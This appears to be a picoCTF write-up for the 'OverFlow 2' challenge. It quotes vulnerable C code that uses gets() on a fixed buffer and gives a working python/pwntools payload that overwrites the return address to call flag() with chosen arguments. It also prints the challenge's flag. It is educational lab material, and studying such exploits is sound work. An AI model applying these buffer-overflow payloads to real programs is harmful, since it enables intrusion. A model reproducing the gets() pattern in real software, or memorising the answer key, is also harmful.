 # OverFlow2

Points : 

# Question

Now try overwriting arguments. Can you get the flag from this [program](vuln)? 
You can find it in /problems/overflow-2_1_210f23786438d7f7e527f4901367a74b on the shell server. [Source](vuln.c).


# Hint 

GDB can print the stack after you send arguments

# Solution

Looking the the source code we can see that :

```C
#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {	<------------ function that print the flag
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)				/
    return;						/
  if (arg2 != 0xC0DED00D)				/  <-----------if (arg1 != 0xDEADBEEF) or (arg2 != 0xC0DED00D) we will never print the flag
    return;						/
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];					<---------- create new buffer size 176
  gets(buf);						<---------- gets take the input from user (vulnerable for overflow)
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

So , like the others overflow challanges we need to override the return address to "flag" starting address in addition this time we also need to pass arguments 
such that arg1=0xDEADBEEF and arg2 = 0xC0DED00D .
this how our payload need to look like :
```
print "a"*(BUFFER_SIZE+EBP_AND_MORE_STUFF)+FLAG_ADDRESS+PADDING+ARG1+ARG2



python -c "from pwn import *; print 'a'*(176+12)+p32(0x080485e6)+'a'*4+p32(0xDEADBEEF)+p32(0xC0DED00D)" | ./vuln 
```

![](overflow2.png)

# Flag
picoCTF{arg5_and_r3turn5001d1db0}

